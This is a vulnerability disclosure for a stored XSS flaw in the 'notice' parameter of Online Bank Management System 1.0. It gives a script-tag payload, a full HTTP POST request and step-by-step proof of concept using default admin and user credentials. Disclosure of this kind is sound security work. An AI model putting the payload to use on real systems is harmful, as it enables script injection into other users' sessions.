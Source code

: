 # Online Bank Management System - Stored Cross-Site Scripting(XSS)

#### Exploit Title: Online Bank Management System - Stored Cross-Site Scripting

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15373/online-banking-management-system-php-free-source-code.html

#### Software Link:https://www.sourcecodester.com/download-code?nid=15373&title=Online+Bank+Management+System+in+PHP+Free+Source+Code

#### Version: Online Bank Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

Persistent XSS (or Stored XSS) attack is one of the three major categories of XSS attacks, the others being Non-Persistent (or Reflected) XSS and DOM-based XSS. In general, XSS attacks are based on the victim’s trust in a legitimate, but vulnerable, website or web application.Online Bank Management System does not filter the content correctly at the "notice" parameter, resulting in the generation of stored XSS.

#### Payload used:

`<script>alert("XSS")</script>`

```POST /mnotice.php?id=2 HTTP/1.1
Host: 192.168.67.14:8089
Content-Length: 69
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.67.14:8089
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.67.14:8089/mnotice.php?id=2
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=3fd6gf7a23dtf98p5b7769nlff
Connection: close

userId=2&notice=%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E&send=
```

#### Proof of Concept

1、Login CMS with administrator account. username: manager@manager.com Password: manager

2、Send a notification to Ali Khan with the content- `<script>alert("XSS")</script>`

![image](https://github.com/joinia/webray.com.cn/blob/main/php-bank/images/alikhan.png)

![image](https://github.com/joinia/webray.com.cn/blob/main/php-bank/images/xsspayload.png)

3、Log in to Ali Khan account after sending successfully, and find that the pop-up window is successful username: some2@gmail.com Password: some2

![image](https://github.com/joinia/webray.com.cn/blob/main/php-bank/images/userlogin.png)



![image](https://github.com/joinia/webray.com.cn/blob/main/php-bank/images/userxss.png)

5、Click View Notice to trigger again.



![image](https://github.com/joinia/webray.com.cn/blob/main/php-bank/images/viewnotice.png)
